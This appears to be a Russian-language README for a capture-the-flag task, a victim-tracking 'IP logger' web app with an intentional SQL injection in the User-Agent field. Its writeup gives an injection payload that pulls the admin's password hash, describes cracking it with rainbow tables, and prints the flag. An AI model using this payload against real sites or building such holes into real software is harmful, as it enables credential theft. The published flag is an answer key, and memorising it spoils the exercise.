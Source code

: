 # IP logger

### Разработчик: Александр Жуков

### Контакты(tg/discord): @amigo2208

**Суть таска:**

Веб приложение для отслеживание IP адреса по генерируемой ссылке. Регистрируемся, логинемся в аккаунт. Далее есть 
возможность сгенерировать ссылку логгера и скинуть ее жертве. В личном кабинете можно создавать новые ссылки, а также 
смотреть переходы по этим ссылкам в табличке. При переходе по ссылке будет уязвимость SQLi, в поле user agent можно 
внедрить инъекцию на statement update и положить туда данные. Нужно будет вытянуть из таблицы пользователей админа, 
узнать хэш его пароля, закинуть хэш в радужные таблицы, залогиниться под админом и у в личном кабинете будет флаг. 


**Ссылка на репо/архив:** 

### Запуск:

```
source venv/bin/activate
uvicorn app:app --reload
```

### Врайтап

Вместо user-agent вставляем 
```
' || (select password  from users where login = 'admin')::text   || '
```
Смотрим хэш по радужным таблицам, заходим в admin находим флаг


### Описание

Нашел в интернете интересный сервис, но мне кажется что admin что-то скрывает.

### Флаг

```
YetiCTF{aDM1n_LUB17_P1v0}
```
